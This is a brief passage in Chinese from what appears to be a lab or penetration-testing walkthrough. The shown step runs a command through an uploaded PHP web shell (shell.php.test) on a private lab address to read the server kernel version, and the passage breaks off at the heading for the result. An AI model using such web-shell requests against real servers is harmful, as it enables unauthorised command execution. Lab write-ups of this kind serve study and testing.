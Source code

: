             ![](sw_12.PNG)
        - 利用url执行cmd命令获取服务器信息
            - 获取服务器内核信息
                ```
                http://10.0.2.7/admin/uploads/shell.php.test?cmd=uname
                ```
                结果：